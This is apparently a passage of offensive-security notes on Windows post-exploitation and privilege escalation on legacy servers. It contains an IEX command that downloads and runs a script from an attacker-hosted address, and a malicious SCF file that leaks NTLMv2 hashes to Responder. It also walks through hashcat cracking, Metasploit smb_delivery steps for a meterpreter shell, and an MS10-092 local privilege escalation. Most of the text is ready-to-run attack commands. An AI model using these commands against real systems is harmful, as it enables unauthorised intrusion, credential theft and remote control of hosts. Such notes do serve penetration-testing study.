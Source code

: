### Interact with users

- Capture traffic if wireshark is installed
- Process monitoring
  ```
  while($true)
  {

    $process = Get-WmiObject Win32_Process | Select-Object CommandLine
    Start-Sleep 1
    $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
    Compare-Object -ReferenceObject $process -DifferenceObject $process2

  }
  ```
  - `IEX (iwr 'http//IP-OF-ATTACK-MACHINE/procmon.ps1')` execute the script from our target with the code hosted in our attacking machine
- Vulnerable service abuse
- Shell Command File on File Share to capture ntlmv2 pass hash.
  - We need an interesting share writable by our user `accesschk -s -w C:\folder-of-shares`
  - Create a malicious SCF file and name it with an @ at the start for example `@Inventory.scf`
  ```
  [Shell]
  Command=2
  IconFile=\\ATTACK-IP\share\legit.ico
  [Taskbar]
  Command=ToggleDesktop
  ```
  - We then just need to start Responder 
    - `sudo responder -wrf -v -I INTERFACE-USED` (your interface can be tun0 for instance it has to be one reachable by the target)
  - Finally we can crack the found hash with hashcat `hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt`

## Privesc on Legacy OS

### Windows Server 2008

- `wmic qfe` will show missing KBs
- We can use [Sherlock](https://github.com/rasta-mouse/Sherlock) to find the vulnerabilities the target might have.
  - On powershell `Set-ExecutionPolicy bypass -Scope process`
  - `Import-Module .\Sherlock.ps1`
  - `Find-AllVulns`
- Get a meterpreter shell
  - `msfconsole`
  - `search smb_delivery` you should see this one `0  exploit/windows/smb/smb_delivery  2016-07-26       excellent  No     SMB Delivery`
  - `use 0`
  - `show options` set srvhost and lhost to your attack machine
  - set the target to DLL (`show targets` `set target 0`
  - `exploit`
  - Paste the comand shown on msf in the target
  - Receive the shell
- Find a local privesc exploit
 - For example we can use CVE 2010-3338
 - on metasploit `search 2010-3338` you should see `0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation`
 - Migrate the process
 - Backgound the session `background`
 - `set session 1`
 - set lhost to your attacking machine IP
 - set lport to a free prot
 - `exploit`